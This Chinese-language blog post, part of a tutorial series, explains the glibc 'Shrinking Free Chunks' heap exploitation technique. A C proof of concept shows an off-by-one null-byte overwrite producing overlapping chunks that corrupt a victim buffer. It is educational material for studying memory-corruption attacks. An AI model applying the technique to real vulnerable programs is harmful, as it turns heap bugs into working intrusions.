 ```yaml
---
title: "heap利用 5/9: Shrinking Free Chunks"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]

lightgallery: true
---
```


<br>

“[Glibc Adventures: The Forgotten Chunk](https://www.accenture.com/jp-ja)”中描述了Shrinking Free Chunks攻击，其因利用了单字节堆溢出（通常由于 '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)' 而被发现。这种攻击的目标是让 'malloc' 返回一个chunk，这个chunk与目前正在使用的已分配的chunk重叠。首先分配3个chunk（`a`，`b`，`c`），这三个chunk在内存空间中是连续的，然后释放中间块`b`。此时如果第一个chunk溢出，会覆盖中间块的空间，攻击者将最低有效字节设为 0，这会“缩小”chunk的大小。接下来，从中间空闲块中分配两个小chunk（`b1` 和 `b2`），此时第三个chunk的 `prev_size`不会更新，因为 `b`+ `b->size` 不再指向 `c`，而是指向 `c` 之前的内存区域。然后，`b1` 和 `c` 一起被释放，`c` 仍然假定 `b` 是空闲的并与 `b` 合并（因为 `prev_size` 没有得到更新，因此 `c` - `c->prev_size` 仍然指向 `b`）。这导致一个大的空闲块从 `b` 开始并与 `b2` 重叠。此时让一个新的 malloc 返回这个大chunk，从而完成攻击。下图[[Image Source](https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)]总结了这些步骤：


<div align=center><img src="./image/shrinking_free_chunks-1.png"></div>

<br>

下列代码展示了一个这种攻击的案例。(完整代码见[此处](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/shrinking_free_chunks.c))

```C
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big` 现在指向初始 `b` 块并与 `b2` 重叠，此时即使`big`和`b2`的空间没有被释放，这两个块的内容也会被更新。需要注意的是，攻击者不仅可以缩小`b`，还可以增加 `b` 的大小，两者都能导致类似的重叠情况。当 'malloc' 请求另一个增加大小的块时，`b` 将用于处理此请求，此时 `c` 的内存也将成为返回的这个新块的一部分。